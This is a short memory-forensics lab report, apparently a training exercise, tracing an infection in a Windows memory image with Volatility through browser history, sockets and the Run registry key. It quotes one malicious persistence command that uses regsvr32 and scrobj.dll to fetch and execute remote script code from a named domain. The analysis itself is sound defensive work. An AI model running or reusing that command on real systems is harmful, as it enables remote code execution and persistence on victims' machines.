





# Report for Memory Analysis - Atenea

Juan Diego Llano Miraval

Fecha: 18/05/2024

## procedure

The first step is to check the profile of the image with volatility:



while checking the process, the connections, and the sockets, I found on the iehistory:



here we can see Location: Visited: Administrador@msni://install.mar@/xgl_engine.htm and Location: Visited: Administrador@res://ieframe.dll/tabswelcome.htm


and the IP that is in the sockets:



we also check the Microsoft\Windows\CurrentVersion\Run registry, first we locate the software hive:



from the address of the software hive, we use it as offset to get the key:



From here we can see ```regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll``` the use of regsvr32 to execute code from an url is a known technique from malicious actors. This is the domain we were looking for.